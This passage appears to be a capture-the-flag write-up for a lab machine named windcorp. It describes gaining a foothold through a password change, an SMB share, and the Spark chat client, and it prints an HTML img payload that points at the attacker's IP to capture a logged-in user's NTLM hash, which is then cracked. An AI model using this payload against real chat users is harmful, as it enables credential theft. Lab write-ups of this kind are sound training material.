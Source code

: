 # Foothold
We are able to change the user password on `lilyle:<REDACTED>` this gave us access to smb, we found the `\shared` directory which gave us the first user flag and hinted at using spark. 

I had some issues with the spark versions in the share, but was able to download and run spark using the tar.gz on their website.

We are able to see which users are online on spark from the windcorp.thm website and find that buse is logged in. 

Using the following payload
`<img src='http://<IP>/gibhash.jpg'>`
We are able to obtain his NTLM hash


```
buse::<REDACTED>
```

This cracks to 
`buse:<REDACTED>`